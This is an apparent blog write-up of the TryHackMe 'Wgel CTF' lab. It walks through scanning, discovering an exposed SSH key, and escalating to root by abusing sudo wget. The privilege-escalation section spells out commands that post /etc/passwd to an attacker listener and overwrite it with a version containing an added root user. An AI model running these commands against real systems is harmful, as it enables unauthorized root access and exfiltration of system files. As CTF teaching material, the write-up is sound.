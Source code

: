 ```yaml
---
title: TryHackMe Wgel CTF [CHALLENGE]
date: 2024-03-13 00:00:00 +0800
categories: [TryHackMe, Challenge]
tags: [walkthough,write-ups]     # TAG names should always be lowercase
image:
    path: https://tryhackme-images.s3.amazonaws.com/room-icons/8116d1d52d3a63dd1e7c2e7ddce8a0d5.png
---
```


Can you exfiltrate the root flag? This room have network service pentesting, linux privilege escalation, directory busting bruteforcing.

## **Reconnaissance**
Initially do the Nmap scan.
```bash
nmap -sC -sV -p- $IP --open
```
`--open`: Scans only the open ports and reduces the time it takes to complete the nmap scan.


```text
Nmap scan report for 10.10.120.57
Host is up (0.30s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 103.48 seconds
```

## **Insights and To-TRY List**
---
OS: Ubuntu

TARGET IP: 10.10.120.57

80 → HTTP
- Apache httpd 2.4.18
- There is comment in the apache default web page source code that could perhaps a username.
- There is a user input in /sitemap/contact

22 → SSH
- Found id_rsa

## **Enumeration**
---
### 80 HTTP
We know that this contains the default apache web server page that shouts "It Works!". But let's not forget to inspect the source code to not miss things out!

![Desktop View](/assets/images/wgel-ctf/jessie.png){: width="972" height="589" }

Let us try scanning for other directories using gobuster. We also can’t do pretty much here.

```bash
gobuster dir -u http://10.10.120.57 -w /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt -k -t 30
```

```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/sitemap              (Status: 301) [Size: 314] [--> http://10.10.120.57/sitemap/]
/server-status        (Status: 403) [Size: 277]
```

Upon inspecting the `/sitemap` webpage, we discovered that it accepts user input. However, after conducting basic [command injection](https://book.hacktricks.xyz/pentesting-web/web-vulnerabilities-methodology) and [directory traversal](https://book.hacktricks.xyz/pentesting-web/web-vulnerabilities-methodology) tests, it did not return any errors, which might indicate that the webpage is vulnerable to exploitation.


![Desktop View](/assets/images/wgel-ctf/contact.png){: width="972" height="589" }

Let us try doing some file busting and see if we can find something interesting.

```bash
gobuster dir -u http://10.10.120.57/sitemap/ -w /opt/SecLists/Discovery/Web-Content/raft-medium-files.txt -k -t 30 
```

```text
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 21080]
/contact.html         (Status: 200) [Size: 10346]
/.htaccess            (Status: 403) [Size: 277]
/.                    (Status: 200) [Size: 21080]
/about.html           (Status: 200) [Size: 12232]
/.html                (Status: 403) [Size: 277]
/blog.html            (Status: 200) [Size: 12745]
/services.html        (Status: 200) [Size: 10131]
/shop.html            (Status: 200) [Size: 17257]
/.htpasswd            (Status: 403) [Size: 277]
/.htm                 (Status: 403) [Size: 277]
/.htpasswds           (Status: 403) [Size: 277]
/.ssh                 (Status: 301) [Size: 319] [--> http://10.10.120.57/sitemap/.ssh/]
/.DS_Store            (Status: 200) [Size: 14340]
/.htgroup             (Status: 403) [Size: 277]
/.htaccess.bak        (Status: 403) [Size: 277]
/.htuser              (Status: 403) [Size: 277]
/work.html            (Status: 200) [Size: 11428]
/.htc                 (Status: 403) [Size: 277]
/.ht                  (Status: 403) [Size: 277]
```
So, why do we have an exposed private key in the first place?

![Desktop View](/assets/images/wgel-ctf/privkey.png){: width="972" height="589" }

Question is, can this key be used by the username we just found from the source code?

## **Gaining an Initial Foothold**

```text
chmod 600 id_rsa
ssh -i id_rsa jessie@$IP
```
SSH private key file needs to be set with chmod 600 permissions to ensure that only the file owner can access the key while complying with SSH client security policies. Otherwise, it won't work.

![Desktop View](/assets/images/wgel-ctf/ssh.png){: width="972" height="589" }

> Do not forget to find the FLAGS
{: .prompt-danger }


## **Privilege Escalation**

I initially checked `sudo -l` command to list the permissions granted to the current user in the sudoers file.

![Desktop View](/assets/images/wgel-ctf/sudo.png){: width="972" height="589" }

The `wget` command is a versatile command-line tool that allows users to download one or several files at once from the internet or a server, utilizing various protocols such as HTTP, HTTPS, and FTP.

This implies that it is possible to download and modify the `/etc/passwd` file to insert a new user, thereby elevating our access privileges.

To start transferring the /etc/passwd to our attacking machine, we need to setup a typical netcat listener.

```bash
nc -lnvp <PORT> > <FILNAME>
```
![Desktop View](/assets/images/wgel-ctf/netcat.png){: width="972" height="589" }

On the target machine

```
sudo /usr/bin/wget --post-file=/etc/passwd <ATTACK_IP>:<PORT>
```
The `--post-file` flag enables wget to send the content of any file.

![Desktop View](/assets/images/wgel-ctf/wget.png){: width="972" height="589" }

From your attacking machine, you can view the extracted file and remove the http headers.

Once removed, generate a new hash password for a new root user in local machine.

```bash
openssl passwd -1 -salt thm password1
```

```bash
$1$thm$lQSjJL4ZZezfQn9UAZSqd1
```

Paste the generated hash to passwd.txt

```bash
echo 'jirho:$1$thm$lQSjJL4ZZezfQn9UAZSqd1:0:0:jirho:/home/jirho:/bin/bash' >> passwd.txt
```

From your attacker's machine working directory, setup a simple http server.

```bash
python3 -m http.server
```
On the target machine, get the file from your attacking machine

```bash
sudo /usr/bin/wget http://<ATTACK_MACHINE_IP>:<PORT>/passwd.txt -O /etc/passwd
```
Switch to the created user

```bash
su <USER>
password1 <-- enter the password you created from openssl
```
![Desktop View](/assets/images/wgel-ctf/root.png){: width="972" height="589" }

> Do not forget to find the FLAGS
{: .prompt-danger }

## **Materials/ References**

[Linux for Pentester: Wget Privilege Escalation - Hacking Articles](https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/)

[Sudo Wget Privilege Escalation Exploit Notes](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-wget-privilege-escalation/)



## **Take Away Concepts**
- Never skip viewing the source code of the website regardless if it is the default Apache webpage, as it might contain hidden comments with user credentials.
- Conduct thorough directory and file busting. Who knows? Maybe someone left their SSH private keys unattended.
- Understand how wget works to escalate your privileges. Took me about an hour doing some trial and error on how to add a root user to the /etc/passwd using wget
- Username can be brute force using SSH.